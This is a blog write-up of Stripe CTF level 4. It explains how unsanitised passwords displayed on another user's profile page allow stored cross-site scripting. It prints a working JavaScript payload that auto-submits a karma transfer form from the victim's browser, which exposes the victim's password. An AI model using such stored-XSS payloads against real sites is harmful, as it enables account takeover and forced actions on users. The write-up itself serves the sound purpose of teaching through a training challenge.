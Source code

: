 Stripe CTF: Level #4
####################
:date: 2012-10-27 14:22
:author: useless
:category: Write-up
:slug: stripe-ctf-level-4
:status: published

.. image:: /images/stripe-ctf-level-4/level04-logo.jpg
    :alt: level04-logo.jpg
    :align: center

You can find the code for this level
`here </docs/stripe-ctf-level-4/stripe-ctf-level04.tar.gz>`__.

(sha256: :code:`07a8338f0ecf92537daedb60709cd8211a790a23f9c25a101e069614b32da2a8`)

This level wants you to spread joy over the world. You have a certain
amount of karma you can distribute to people. But to be sure that you
only send karma to people you really trust to be good, everyone you send
karma to will be able to see your password. What's more, the user
karma_fountain is soooo good that he has infinite karma. Wouldn't it be
nice if you could get access to his account?

Here, we can see that the user captain sent us one karma. Now, his
password, ''captain_password'', is visible to us.

.. image:: /images/stripe-ctf-level-4/level04-transfer_captain_cats.png
    :alt: level04-transfer_captain_cats.png
    :align: center

So, all we have to do to get karma_fountain's password is to get him to
send us karma. Two ways for this: we could be so good that he'll want to
give us karma, or we can force him a little bit.

So, what are our ways to interact with karma_fountain? The site doesn't
offer some kind of internal messaging, we don't have an email address...
All we can do is send karma_fountain some karma. Then, he'll see our
password on his profile page. Hmmm, our password will be written to its
profile page:

.. code-block:: ruby

    # File views/home.erb, line 52
    <% @registered_users.each do | user | %>
    <% last_active = user[:last_active].strftime('%H:%M:%S UTC') %>
    <% if @trusts_me.include?(user[:username]) %>
    <li>
    <%= user[:username] %>
    (password: <%= user[:password] %>, last active <%= last_active %>)
    </li>

The password is not sanitized before it is displayed. Is it before it's
registered in the database?

.. code-block:: ruby

    # File srv.rb, line 168
    DB.conn[:users].insert(
        :username => username,
        :password => password,
        :karma => STARTING_KARMA,
        :last_active => Time.now.utc
    )

Nope. So if we put some javascript code as our password, and then we
send karma to karma_fountain, our password (i.e. the javascript code)
will be embedded in karma_fountain's page. If this javascript tells
karma_fountain's browser to send us karma, its password will be
displayed on our home page.

So, let's create a user evil_hacker, with the following password:

.. code-block:: html

    <script>
        var form = document.createElement("form");
        form.setAttribute("method", "post");
        form.setAttribute("action", "transfer");
        var to_field = document.createElement("input");
        to_field.setAttribute("type", "hidden");
        to_field.setAttribute("name", "to");
        to_field.setAttribute("value", "cats");
        form.appendChild(to_field);
        var amount_field = document.createElement("input");
        amount_field.setAttribute("type", "hidden");
        amount_field.setAttribute("name", "amount");
        amount_field.setAttribute("value", "1");
        form.appendChild(amount_field);
        document.body.appendChild(form);
        form.submit();
    </script>

Okay, I know this code is way too long, but javascript is really not my
strong suit. Plus, there is the problem that once karma_fountain's
browser executes the javascript, the transfer will take place, then
karma_fountain will be redirected to its homepage, where the transfer
will take place etc. Not very sly. So, there is room for improvement on
this code. It's just to demonstrate the attack.

.. image:: /images/stripe-ctf-level-4/level04-evil_hacker_register.png
    :alt: level04-evil_hacker_register.png
    :align: center

We connect as evil_hacker and send one karma to karma_fountain. Then,
we wait for him to connect (the CTF staff had put up a bot which would
look at its profile page every five minutes). Let's look at our profile:

.. image:: /images/stripe-ctf-level-4/level04-w00t.png
    :alt: level04-w00t.png
    :align: center

w00t!


